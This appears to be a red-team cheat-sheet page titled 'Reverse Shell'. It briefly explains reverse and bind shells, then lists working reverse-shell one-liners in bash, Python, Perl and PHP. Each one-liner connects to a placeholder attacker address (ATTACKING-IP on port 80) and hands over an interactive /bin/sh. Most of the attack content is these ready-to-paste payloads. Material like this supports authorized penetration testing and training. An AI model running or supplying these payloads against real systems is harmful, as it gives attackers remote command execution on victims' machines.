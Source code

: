 ```yaml
---
title: Reverse Shell
date: 2025-01-05 20:00:00 +0100
categories: [Red Team, Network]
tags: [shell, bash, zsh, php, python, socat, netcat, msfvenom, metasploit, reverse shell, bind shell, shell stabilization, shell payloads]
authors: jrg1a
img_path: /assets/images/RedTeam/
image:
  path: revshell.webp
---
```

# Reverse Shell

> A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved.
## Types of shell
There are two types of shells: 
1. **Reverse Shell**: The target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection.
2. **Bind Shell**: The target machine opens a port and waits for an incoming connection. The attacking machine connects to that port and gets a shell.

### Reverse Shell
A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved.

#### Bash shell
```bash
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

#### Python shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Perl shell
```perl
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### PHP shell
```php
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```
